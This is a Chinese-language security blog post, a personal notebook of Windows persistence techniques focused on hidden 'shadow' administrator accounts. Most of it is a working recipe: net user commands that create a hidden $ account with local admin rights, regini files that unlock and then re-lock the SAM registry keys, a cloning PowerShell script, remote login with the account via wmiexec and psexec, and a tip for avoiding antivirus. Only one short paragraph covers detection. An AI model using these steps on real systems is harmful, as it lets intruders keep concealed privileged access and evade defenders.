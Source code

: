 ```yaml
---
layout: post
title: Backdoor and persistence-Windows
date: 2020-01-31 23:30:00
tags: 域渗透 backdoor persistence
categories: hack  
author: PythonPig
---
```

* content
{:toc}

这篇文章主要记录自己使用的一些Windows后门和权限维持的方法，大部分来自网络，同时会记录一些自己在使用过程中踩的坑，方法会持续更新。  

{:refdef: style="text-align: center;"}
![backdoor](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Backdoor%20and%20persistence-Windows/backdoor.png?raw=true)
{: refdef}   
图片来源于https://xz.aliyun.com/t/4842




### \#0x00 影子账户:
影子账户指的是用户名以$结尾，具有administrator权限，使用net user和控制面板看不到的账户。  
下面添加影子账户的方法不适用于DC(域控)，因为该方法利用了本地帐号保存在注册表HKEY_LOCAL_MACHINE\SAM\SAM中的信息，但是域控不存在本地账户： 
```
There is no local account on dc(domain controller)
Please understand that when a Windows server is promoted to a domain controller, the server no longer uses the local account (Security Accounts Manager [SAM]) database during normal operations to store users and groups. When the promotion is complete, the new domain controller has a copy of the Active Directory database in which it stores users, groups, and computer accounts. The SAM database is present, but it is inaccessible when the server is running in Normal mode. The only time that the local SAM database is used is when you boot into Directory Services Restore mode or the Recovery Console. 
If this new domain controller is the first domain controller in a new domain, the local SAM database that the new domain controller contained as a stand-alone server is migrated to the Active Directory database that is created during the promotion. All of the local user accounts that the local SAM database contained when it had been a stand-alone server are migrated from the local SAM database to the Active Directory database. In addition, any permissions that had been assigned to the local users, such as, NTFS permissions, are retained when the users are migrated to the Active Directory database.
 
```  
若域控需要添加隐藏用户，可直接添加以$结尾的用户，net user不显示该用户，但在“AD用户和计算机”和“控制面板用户管理”可以看到该用户。  
```
net user test$ !QAZ2wsx#EDC /add            添加的是普通域用户，“AD用户和计算机”可见，“控制面板用户管理”(管理本地用户)不可见
net localgroup administrators test$ /add    加入本地管理员组，“AD用户和计算机”和“控制面板用户管理”可见
```

1、分配注册表权限  
 
因为默认情况下，只用nt authority\system可以编辑HKEY_LOCAL_MACHINE\SAM\SAM，因此需要给administrator分配权限，regini的使用可以查看使用帮助。  
```
regini up.ini
```    
up.ini的内容如下:  
```
HKEY_LOCAL_MACHINE\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator [1 17]
```

2、使用powershell脚本添加影子账户  
这里使用三好学生的脚本添加影子账户，[脚本：Windows-User-Clone](https://github.com/3gstudent/Windows-User-Clone)，这个脚本需要system权限，因为注册表的权限已经分配，修改下脚本使脚本可以在administrator权限下运行，[修改后的脚本](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Backdoor%20and%20persistence-Windows/Windows-User-Clone.ps1)，添加的用户名和密码在文件的最后一行。  
```
powershell.exe -file Windows-User-Clone.ps1
```
注：使用wmiexec.py和psexec.py远程操作时，会触发杀软，建议远程桌面登录后执行powershell脚本。  

3、添加成功后，恢复注册表权限  
```
regini down.ini  
```
down.ini的内容如下:  
```
HKEY_LOCAL_MACHINE\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator [17]
```

4、添加帐号的使用  
RDP:直接使用，用户名就是就是添加的用户，如：username$  
wmi:wmiexec.py "username$"@10.100.100.100  
psexe:psexec.py "username$"@10.100.100.100  
使用wmi或psexe时若提示“第一次登录需要修改密码”，则使用RDP在登录时修改密码。  

5、防御  
针对隐藏帐户的利用，查看注册表HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\即可。  
当然，默认管理员权限(administrator)无法查看，需要分配权限或是提升至Sytem权限，可打开注册表编辑器(regedit.exe)直接分配权限。    

### 参考
* [渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/)  
* [windows后渗透维权](http://www.landq.cn/2019/09/01/windows%E5%90%8E%E6%B8%97%E9%80%8F%E7%BB%B4%E6%9D%83/)  
